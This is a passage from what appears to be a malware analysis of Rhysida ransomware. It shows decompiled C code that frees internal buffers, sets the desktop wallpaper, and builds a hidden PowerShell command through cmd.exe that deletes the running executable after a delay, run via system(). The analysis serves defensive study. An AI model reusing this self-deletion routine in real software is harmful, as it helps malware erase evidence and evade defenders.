 ```c
free(QUERY_FILE_THREAD_IDS);
free(thread_is);
free(QUERY_FILE_POSS);
for ( threads = 0;
threads < num_processors;
++threads ) {
    for ( i = 0;
    i <= 1023;
    ++i )      free( * (void **)(8i64  *  i  +   * ((_QWORD  * )QUERY_FILES  +  threads)));
    free( * ((void **)QUERY_FILES  +  threads));
}

free(QUERY_FILES);
free(QUERY_FILE_LOCKEDS);
free(MUTEXES);
sub_4424C0(&MUTEX_PRNG);
if (  * ((_DWORD  * )v14  +  4) == 1 )  {
    Destination = (char  * )malloc(0x7FFui64);
    strcpy(      Destination, "cmd.exe /c start powershell.exe -WindowStyle Hidden -Command Sleep -Milliseconds 500; Remove-Item -Force -Path \"");
    strcat(Destination, DstBuf);
     * (_WORD  * )&Destination[strlen(Destination)] = 92;
    strcat(Destination, * (const char **)v14);
    strcat(Destination, "\" -ErrorAction SilentlyContinue;");
}

free( * (void **)v14);
free( * ((void **)v14  +  1));
free(v14);
Set_Wallpaper(v3);
if (  * ((_DWORD  * )v14  +  4) == 1 )  {
    system(Destination);
    free(Destination);
}

return 0;
}
```

--- 
## References
- <https://github.com/libtom/libtomcrypt>
- <https://malpedia.caad.fkie.fraunhofer.de/details/win.rhysida>
